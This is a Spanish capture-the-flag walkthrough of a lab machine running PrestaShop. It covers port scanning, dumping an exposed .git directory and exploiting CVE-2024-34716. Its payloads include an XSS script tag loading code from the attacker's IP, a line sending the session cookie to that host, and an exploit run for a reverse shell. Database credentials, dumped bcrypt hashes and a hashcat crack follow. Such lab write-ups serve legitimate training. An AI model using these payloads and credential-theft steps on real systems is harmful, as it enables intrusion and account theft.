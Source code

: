 #XSS 
`nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.34 -oG allPorts`
`nmap -p22,80 -sCV 10.10.11.34 -oN targeted`
```python
22/ssh
80/http
```


`gobuster vhost -u http://trickster.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 200 -r --append-domain`
```js
10.10.11.34     trickster.htb shop.trickster.htb
```

Utiliza un `prestashop` que es como un Wordpress para ecomerce

Encontramos en `robots.txt` el directorio `http://shop.trickster.htb/.git/`

Usaremos la herramienta [[GITHACK]] `https://github.com/lijiejie/GitHack.git`
`python3 githack http://shop.trickster.htb/.git/`

Nos traerá toda la web a nuestra maquina y la podemos ver navegando a sus directorios
Encontramos el siguiente directorio de panel de login de Prestashop `http://shop.trickster.htb/admin634ewutrx1jgitlooaj/index.php`

Encontramos la versión y encontramos que tiene un CVE `CVE-2024-34716`
`https://ayoubmokhtar.com/post/png_driven_chain_xss_to_remote_code_execution_prestashop_8.1.5_cve-2024-34716/`

En el PoC nos explica que podemos crear un falso archivo `.png` en el cual podemos incluir contenido JavaScript que será interpretado, por lo que se acontecería un XXS
Este archivo se puede incluir en la web `http://shop.trickster.htb/contact-us`

Creamos el fichero `test.png` con el contenido `<script src="http://10.10.14.18/malicius.js"></script>`

El servicio web hace la solicitud al recurso que hemos levantado en el server de Python

Podemos probar a listar la cookie de sesión `<script src="http://10.10.14.18/?cookie=" + document.cookie></script>`

Como el HttpOnly esta en True no nos permite obtener la cookie

EN el PoC nos dice que hay que subir un tema malicioso podemos usar el repositorio `https://github.com/aelmokhtar/CVE-2024-34716` que nos lo automatiza

Este script nos automatiza todo el proceso de ejecución devolviéndonos una Reverse Shell directamente

`python3 exploit.py --url "http://shop.trickster.htb" --email test@test.com --local-ip 10.10.14.18 --admin-path admin634ewutrx1jgitlooaj
`
Obtendremos una reverse shell como el usuario
Y hacemos un tratamiento de la TTY para que podamos trabajar mas cómodamente

En nuestro directorio acctual encontramos el directoriuo de `prestashop` buscamos por archivos de configuracion `find . -name \*conf\*` y encontramos la siguiente ruta `app/config`  buscamos por archivos que contengan la plabra password `grep -r -i "password"`y encontramos un archivo llamdo `parameters.php`

Y encontramos el usuario de la base de datos 
```ad-hint 
ps_user::prest@shop_o
```

Nos conectamos a la base de datos con el usuario y password encontrados:
`mysql -ups_user -pprest@shop_o -D prestashop`

Al haber muchas tablas se puede filtrar de la siguiente forma
`select table_name from information_schema.columns where column_name = 'email' and table_schema = database();`

Lo que nos hace es: d3e la base de datos actual de todas las tablas muéstrame todas las columnas que contengan la palabra email

Encontramos que en la tabla de empledos es donde se encuentran todos los datos mas relevantes;
`describe ps_employee;`

Obtenemos los usuarios y las contraseñas:
`select email,passwd from ps_employee;`

```ad-hint
admin@trickster.htb

$2y$10$P8wO3jruKKpvKRgWP6o7o.rojbDoABG9StPUt0dR7LIeK26RdlB/C

james@trickster.htb

$2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm
```

Para esos hashes los cuardamos en un archivo y se los pasamos ha [[HASCAT]] el cual nos dira diferentes modos que debmos de probar para decodearlo ` hashcat hashes /usr/share/wordlists/rockyou.txt -O `

Nos indica que son bcrypt y tendremos que usar el siguiente parametro
`hashcat hashes /usr/share/wordlists/rockyou.txt -O -m 3200`

Encontramos la contraseña `alwaysandforever` para el usuario `james`





